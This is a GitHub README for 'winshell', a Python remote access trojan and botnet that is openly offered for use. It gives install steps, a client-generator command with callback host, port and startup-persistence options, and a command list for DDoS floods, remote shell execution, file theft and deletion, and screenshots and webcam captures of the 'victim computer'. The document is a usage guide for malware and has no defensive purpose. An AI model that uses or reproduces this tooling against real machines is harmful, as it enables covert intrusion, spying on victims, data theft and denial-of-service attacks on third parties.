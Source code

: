 # winshell

**winshell is a python opensource RAT and Botnet**

### Installation
 - ####     Windows
   - `git clone https://github.com/Z4RK/winshell.git`
   - `cd winshell`
   - `pip install -r requierements.txt`
 - #### Linux
   - `git clone https://github.com/Z4RK/winshell.git`
   - `cd winshell`
   - `./install.sh`
   - `pip install -r requierements.txt`

### Features
 - The client can be compiled into an executable file
 - Supports multi-clients
 - Can perform denial of service attacks with all clients connected to the server
 - Can execute all shell commands
 - Can upload and download file
 - Can run the client at startup
 - Can browse files 
 - & more...
 
### Usage
 - #### Generate the client
   - `python generate.py --host <server hostname> --port <port to use> [--out <output name>|--addstartup]`
 - #### Server commands
   - **Commands in the winshell menu**
     - `list client` list all clients connected on the server
     - `interact <client id>` start a session with a client
     - `flood <url/ip>` do a denial of service attacks with all clients connected
     - `quit` quit winshell
   - **Commands with a remote session**
     - `help` show this message
     - `upload <arg>` upload a file
     - `download <arg>` download a file
     - `cd <arg>` change directory
     - `ls` list files in current directory
     - `rm <arg>` remove a file
     - `rmdir <arg>` remove a directory
     - `screenshot` take a screenshot from the victim computer
     - `webcam_snap` taka a webcam picture form the victim computer
     - `getpid` get the current process id
     - `ps` list running process
     - `search <arg>` filter running process by name
     - `currentporcess` get the current process run on the victim computer
     - `force <arg>` do a shell command with an output (ipconfig, dir)
     - `force2 <arg>` do a shell command without an output(mkdir, start...)
     - `quit` quit the session
     # 
     
     [![PythonV](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/download/releases/2.7/)

